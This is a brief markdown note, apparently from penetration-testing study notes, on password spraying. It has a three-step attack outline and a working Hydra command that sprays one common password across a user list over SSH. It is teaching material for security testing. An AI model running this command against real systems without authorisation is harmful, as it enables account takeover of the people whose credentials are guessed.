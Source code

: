 # Password spraying

## Attack tree

```text
1 Make a users.txt file from enumerated users
2 Choose a well-known likely password (use information from reconnaissance, season)
3 Use a tool such as Metasploit, Hydra, Medusa, or Nmap
```

## Examples

### SSH

    hydra -L userlist.txt -p Password123! <target IP> ssh

## Notes

The disadvantages are that it relies heavily on luck and good educated guesses about how people think, and there
is still a risk of alarms going off because of targeting many accounts from a single source or over a small amount of 
time.